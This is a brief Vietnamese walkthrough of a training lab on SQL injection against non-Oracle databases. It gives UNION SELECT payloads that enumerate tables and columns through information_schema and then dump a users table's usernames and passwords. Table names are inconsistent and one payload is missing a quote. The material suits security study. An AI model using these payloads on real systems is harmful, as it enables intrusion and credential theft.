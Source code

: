 # SQL injection attack, listing the database contents on non-Oracle databases

Như thường lệ ta check xem có bao nhiêu cột và kiểu dữ liệu trong cột đó là gì, làm như những bài trước thì ta thấy có 2 cột và kiểu dữ liệu string.

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables --` để xem tên các bảng trong database, tiếp theo ta tìm bảng có tên liên quan tới `Users` và tìm được bảng có tên `users_hxzojb`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134664576068231250/image.png)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = users_hxzojb'--` để liệt kê ra tên các cột trong bảng `users_avnkam`.

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134665511142174741/image.png)

Tiếp theo ta sử dụng câu lệnh `' UNION SELECT username_gielgn, password_zpilyt FROM users_hxzojb--` để hiển thị ra thông tin bên trong 2 cột của bảng `users_hxzojb`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1134666106439733248/image.png)

Giờ thì đăng nhập và hoàn thành bài lab thôi.

